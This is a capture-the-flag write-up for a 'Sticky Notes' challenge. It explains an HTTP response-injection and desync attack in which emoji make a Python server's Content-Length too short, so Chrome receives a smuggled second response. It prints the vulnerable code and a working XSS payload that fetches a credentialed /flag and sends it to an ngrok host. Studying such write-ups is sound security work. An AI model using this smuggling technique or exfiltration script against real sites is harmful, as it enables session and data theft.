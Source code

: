 # Sticky Notes

My Sticky Notes app uses a simple file server I wrote in Python! Surely there aren't any bugs...

App: http://35.224.135.84:3100

Attachments: `sticky_notes.zip`

## TLDR

HTTP desync similar to
[Carmen Sandiego](https://gist.github.com/bluepichu/6898d0f15f9b58ba5a0571213c3896a2)
from PlaidCTF 2021, but instead of a filesystem TOCTOU it exploits
`len(s) != len(s.encode())` when multi-byte chars are used.

## Overview

Three servers:
- `web/boards.py` (port `3100`): Provides a simple web interface.
- `web/notes.py` (port `3101`): Home-rolled static file server. Flag is also here.
- `bot/app.js` (port `3102`, internal): Admin bot with access to the flag.

Notes are stored in `/tmp/boards` and `web/boards.py` simply provides an API
for fetching and creating notes (also provides a "Report" function that
triggers the admin bot). Weirdly enough, notes are displayed using `iframes` to
the `web/notes.py` server:

```html
<iframe src="http://localhost:3101/{board_id}/note0"></iframe>
```

Unfortunately we can't get XSS easily because of the `Content-Type`:
```python
header_template = """HTTP/1.1 {status_code} OK\r
Date: {date}\r
Content-Length: {content_length}\r
Connection: keep-alive\r
Content-Type: text/plain; charset="utf-8"\r
\r
"""
```

Goal: Inject our own HTTP headers and payload to achieve XSS.

## HTTP response injection

The vulnerability is here:
```python
def http_header(s: str, status_code: int):
    return header_template.format(
        status_code=status_code,
        date=formatdate(timeval=None, localtime=False, usegmt=True),
        content_length=len(s),
    ).encode()
```

Because:
```python
assert len("😍") == 1
assert len("😍".encode()) == 4
```

If we use multi-byte chars, the `Content-Length` will be shorter than the
actual content. We can abuse this like so:
```python
payload = "😍😍😍😍evil payload"
i = len(payload)
assert payload.encode()[:i] == "😍😍😍😍".encode()
assert payload.encode()[i:] == b"evil payload"
```

Now if we request this note, the 1st HTTP response should be `😍😍😍😍` and the
2nd should be `evil payload`. However, turns out it's not that simple.

## HTTP desync

Chrome has 6 max connections per domain, so the 7th one reuses the 1st
connection when it's `HTTP/1.1` with `Connection: keep-alive`. In this case,
the server logs would show:
```
[*] GET /0 HTTP/1.1 127.0.0.1:41844, 1st request
[*] GET /1 HTTP/1.1 127.0.0.1:41846, 1st request
[*] GET /2 HTTP/1.1 127.0.0.1:41848, 1st request
[*] GET /3 HTTP/1.1 127.0.0.1:41850, 1st request
[*] GET /4 HTTP/1.1 127.0.0.1:41852, 1st request
[*] GET /5 HTTP/1.1 127.0.0.1:41854, 1st request
[*] GET /6 HTTP/1.1 127.0.0.1:41844, 2nd request
```

If we're able to send two HTTP responses on `GET /0`, then `GET /6` would
receive the 2nd HTTP response containing our XSS payload.

However, due to the way browsers are implemented, the 2nd HTTP response must
appear in a different TCP packet than the 1st. Luckily in `notes.py` we have:
```python
for chunk in iter_chunks(content):
    self.wfile.write(chunk)
    time.sleep(0.1)
```

The server sends data in 1448 byte chunks and sleeps for 0.1 sec between
each chunk. That means as long as the 2nd HTTP response occurs after 1448
bytes, then it will appear in its own packet.

## Payload

We want our XSS payload to occur right at the start of a TCP packet. In order
to do so, we need to precede it with a bunch of Unicode chars to mess up the
`Content-Length`. Here's the calculation:

```
"😍" is 4 bytes

We want:
len(pre) + len(payload) == len(pre.encode())

So:
len(pre) + len(payload) == 4 * len(pre)
len(pre) = len(payload) // 3

We also want len(pre) + len(payload) to be a multiple of 1448.

An easy solution is:
len(payload) = 1448 * 3
len(pre) = 1448
```

So basically our payload looks like
```python
pre = "😍" * 1448
payload = "whatever we want"
assert len(payload) == 1448 * 3
```

With this, our payload will appear in the 7th iframe, giving us XSS.
```
😍😍😍😍😍...😍😍😍😍😍HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 410

<marquee id="title">Fetching flag...</marquee>
<script>
(async () => {
   // Discard this first request because it will receive the padding at the
   // end of the payload.
   fetch('/flag', {credentials: 'same-origin'})

   const res = await fetch('/flag', {credentials: 'same-origin'})
   const flag = await res.text()
   fetch('http://daccb1edf8e2.ngrok.io/' + encodeURIComponent(flag))
   document.getElementById('title').textContent = 'Pwned'
})()
</script>
ZZZZZ...ZZZZZ
```

Script in `solve.py`:

![win](win.png)

![flag](flag.png)
